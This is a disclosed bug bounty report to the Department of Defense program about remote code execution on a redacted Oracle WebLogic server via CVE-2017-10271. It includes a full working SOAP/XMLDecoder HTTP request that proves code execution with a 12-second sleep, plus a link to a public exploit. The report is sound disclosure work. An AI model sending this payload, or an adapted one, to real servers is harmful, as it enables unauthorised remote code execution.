 # RCE on █████ via CVE-2017-10271

## Report Details
- **Report ID**: 576887
- **URL**: https://hackerone.com/reports/576887
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-05-10T22:23:31.518Z
- **Disclosed**: 2019-07-01T19:54:20.273Z

## Reporter
- **Username**: erbbysam
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
Happy Friday! The server at `██████` is vulnerable to CVE-2017-10271 "Oracle WebLogic Server Remote Command Execution".

**Description:**
The following request takes 12 seconds (12000 milliseconds) to complete:
```
POST /wls-wsat/RegistrationPortTypeRPC HTTP/1.1
Host: ██████████
Content-Length: 423
content-type: text/xml
Accept-Encoding: gzip, deflate, compress
Accept: */*

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java class="java.beans.XMLDecoder">
        <object class="java.lang.Thread" method="sleep">
          <long>12000</long>
        </object>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```
This proves that I have Java code execution on the remote server. 

ref: https://techblog.mediaservice.net/2018/07/cve-2017-10271-oracle-weblogic-server-remote-command-execution-sleep-detection-payload/

Public exploits for this exist: https://github.com/c0mmand3rOpSec/CVE-2017-10271
I was not able to use that script with a `ping` command, which might have been blocked by preventing outbound connections.

## Suggested Mitigation/Remediation Actions
Patch & possibly don't allow external access.

## Impact

Critical, RCE.

## Attachments
No attachments
